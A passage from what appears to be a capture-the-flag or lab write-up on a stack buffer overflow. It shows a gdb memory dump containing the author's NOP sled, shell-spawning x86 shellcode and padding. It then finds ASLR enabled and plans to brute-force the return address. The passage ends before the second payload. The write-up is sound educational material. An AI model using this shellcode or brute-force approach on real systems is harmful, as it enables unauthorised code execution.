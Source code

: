 `0xbf9f3588` seems to be a good address candidate for jumping into the [NOP sled](https://en.wikipedia.org/wiki/NOP_slide)

I tried to send it again, and got resulting stack :

```
(gdb) x/100x $esp-200
x/100x $esp-200
0xbfc6c468:	0x00000000	0x080484a8	0xbfc6c481	0xbfc6dcdc
0xbfc6c478:	0x00000000	0xb77a5b48	0x90909001	0x90909090
0xbfc6c488:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfc6c498:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfc6c4a8:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfc6c4b8:	0x31909090	0xb0db31c0	0x5380cd06	0x74742f68
0xbfc6c4c8:	0x642f6879	0xe3897665	0xb966c931	0x05b02712
0xbfc6c4d8:	0xc03180cd	0x2f2f6850	0x2f686873	0x896e6962
0xbfc6c4e8:	0x895350e3	0x0bb099e1	0x414180cd	0x41414141
0xbfc6c4f8:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfc6c508:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfc6c518:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfc6c528:	0x41414141	0xc042dc78	0x00000000	0xbfc6c5c4
0xbfc6c538:	0xbfc6c5d0	0xb77b7e9a	0x00000002	0xbfc6c5c4
0xbfc6c548:	0xbfc6c564	0x0804974c	0x0804821c	0xb779a000
0xbfc6c558:	0x00000000	0x00000000	0x00000000	0x56222d49
0xbfc6c568:	0x13c58958	0x00000000	0x00000000	0x00000000
0xbfc6c578:	0x00000002	0x08048360	0x00000000	0xb77bd6e0
0xbfc6c588:	0xb7643639	0xb77ca000	0x00000002	0x08048360
0xbfc6c598:	0x00000000	0x08048381	0x0804845d	0x00000002
0xbfc6c5a8:	0xbfc6c5c4	0x080484b0	0x08048520	0xb77b8350
0xbfc6c5b8:	0xbfc6c5bc	0x0000001c	0x00000002	0xbfc6dcc8
0xbfc6c5c8:	0xbfc6dcdc	0x00000000	0xbfc6dd8c	0xbfc6ddb9
---Type <return> to continue, or q <return> to quit---
```

0xbfc6c488 - 0xbf9f3588 = 278F00. Such big distance can lead to [ASLR](https://fr.wikipedia.org/wiki/Address_space_layout_randomization) enabled.

How to check :
```
clapton@debian:~$ cat /proc/sys/kernel/randomize_va_space
cat /proc/sys/kernel/randomize_va_space
2
```
Damned ! "2" means it is enabled, so we can't predict with reasonable error the jumping address.

##### Second payload : repetition

Now the idea is __to repeat the program execution with a payload that will maximize chance for
our return address to target in NOP sled__.

As the stack location is random in memory each execution, I will create loop with "enough" tries (try and mistake mode)
in order to force the probability of my address pointing in NOP sled to occur.

So I need a different payload :
